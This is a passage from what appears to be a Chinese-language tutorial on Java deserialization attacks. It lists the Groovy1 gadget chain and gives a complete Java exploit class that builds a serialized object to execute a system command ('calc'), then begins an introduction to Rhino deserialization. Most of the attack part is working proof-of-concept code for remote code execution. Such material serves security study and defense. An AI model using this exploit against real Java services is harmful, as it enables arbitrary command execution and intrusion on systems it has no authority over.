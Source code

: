Gadgets 如下：

```plain
AnnotationInvocationHandler.readObject()
    Map.entrySet() (Proxy)
        ConversionHandler.invoke()
            ConvertedClosure.invokeCustom()
                MethodClosure.call()
                    ProcessGroovyMethods.execute()
```

exp 如下：

```plain
package com.example.groovy;

import org.codehaus.groovy.runtime.ConvertedClosure;
import org.codehaus.groovy.runtime.MethodClosure;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Proxy;
import java.util.Base64;
import java.util.Map;

public class Groovy1 {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, IOException {

        MethodClosure methodClosure=new MethodClosure("calc","execute");
        ConvertedClosure closure=new ConvertedClosure(methodClosure,"entrySet");
        Class<?>  AnnotationInvocationHandler = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = AnnotationInvocationHandler.getDeclaredConstructor(Class.class,Map.class);
        constructor.setAccessible(true);
        Map handler= (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{Map.class},closure);
        Object object=constructor.newInstance(Target.class,handler);
        unserialize(serialize(object));

    }

}
```

# Rhino 反序列化

Mozilla Rhino 是一种基于 Java 的可扩展、轻量级的 JavaScript 引擎。它可以在 Java 虚拟机（JVM）上运行 JavaScript 代码，并且可以作为独立的命令行工具和嵌入式组件来使用。Rhino 可以通过 Java API 来访问和操作 Java 对象，也可以通过 JavaScript 对象访问和操作 Java 对象。Rhino 还支持 ECMAScript 6 标准和部分 ECMAScript 7 标准的功能。因此，它可以用于许多领域，如 Web 开发、桌面应用程序、服务器端脚本等。
